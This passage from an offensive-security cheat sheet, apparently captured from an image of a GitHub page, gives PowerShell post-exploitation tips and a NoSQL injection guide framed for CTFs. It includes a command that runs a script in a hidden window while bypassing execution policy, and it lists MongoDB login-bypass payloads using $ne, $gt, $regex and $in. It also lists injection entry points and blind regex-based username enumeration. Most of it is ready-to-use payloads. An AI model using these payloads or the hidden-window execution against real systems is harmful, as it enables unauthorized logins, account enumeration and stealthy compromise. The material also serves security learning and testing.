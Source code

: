 - **Use PowerView or Nishang** for enumeration, privilege escalation, and persistence.

- **Use `-w hidden` to suppress PowerShell window (post-exploit):**
```bash
powershell -w hidden -exec bypass -File script.ps1
```

- **Enumerate system info, users, and network:**
```powershell
Get-LocalUser
Get-LocalGroupMember administrators
Get-NetIPAddress
```

---

### 🧬 NoSQL Injection – Full CTF Exploitation Guide

---

#### 🔓 Login Bypass Payloads

These exploit MongoDB’s flexible querying:
```bash
username[$ne]=null&password[$ne]=null
username[$gt]=admin&password[$gt]=admin
username[$regex]=.*&password[$regex]=.*
username[$in][]=admin&password[$in][]=admin
```

These payloads allow login by returning `true` on any non-null or regex match.

---

### 🛠️ Common Injection Entry Points

| Injection Vector        | Description                         |
|-------------------------|-------------------------------------|
| URL parameters          | `?username[$ne]=1&password[$ne]=1` |
| Form fields (POST)      | login inputs                        |
| JSON body (APIs)        | `{"username": {"$ne": null}}`      |
| HTTP headers            | `X-User: {"$gt": ""}`               |

---

### 🧪 Blind NoSQL Injection (User Enumeration)

Try brute-forcing usernames one letter at a time:
```bash
username[$regex]=^a&password[$ne]=x
username[$regex]=^adm&password[$ne]=x
```
Check for response differences to confirm partial matches.

---